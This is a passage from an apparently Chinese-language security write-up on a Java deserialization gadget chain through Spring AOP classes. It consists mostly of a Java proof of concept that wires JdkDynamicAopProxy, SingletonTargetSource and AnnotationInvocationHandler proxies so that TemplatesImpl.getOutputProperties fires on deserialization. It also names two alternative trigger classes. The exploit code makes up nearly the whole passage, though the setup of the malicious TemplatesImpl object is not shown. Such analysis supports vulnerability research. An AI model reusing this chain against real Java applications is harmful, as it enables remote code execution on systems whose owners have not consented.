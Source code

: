 所以`SingletonTargetSource`是一个直接能直接触发`TemplatesImpl`方法的类，有了这些关键点后，我们就能构造一个完整的POC了：

```java
public static void main(String[] args) throws Exception {
    AdvisedSupport as = new AdvisedSupport();
    // 这里不止有 SingletonTargetSource 对象能触发我们想要的逻辑，我还找到了两个类，也和SingletonTargetSource的做法差不多
    // LazyInitTargetSource
    // HotSwappableTargetSource
    as.setTargetSource(new SingletonTargetSource(TemplatesImpl));
    // 创建一个JdkDynamicAopProxy类的实例，然后再创建一个动态代理，和我们上边的残缺POC的逻辑接上就可以了
    Class<?> JdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
    Constructor<?> JdkDynamicAopProxyCtor = JdkDynamicAopProxyClass.getDeclaredConstructors()[0];
    JdkDynamicAopProxyCtor.setAccessible(true);
    InvocationHandler invocationHandler = (InvocationHandler)JdkDynamicAopProxyCtor.newInstance(as);
    // 按理来说，这里的xxxxxxxxxx如果能塞进来一个TemplatesImpl对象，此时我们就能完成攻击链的构造了
    // 很不巧，newProxyInstance的第三个参数是一个必须要实现InvocationHandler接口的动态代理实现类
    // 而TemplatesImpl对象是没有实现这个接口的
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{Type.class, Templates.class}, invocationHandler);

    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    // 此时map中的Object就是我们实现了Type和Templates这两个接口的实例了
    map.put("getType", typeTemplatesProxy);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");

    serialize(mitp);
    unSerialize();
}
```
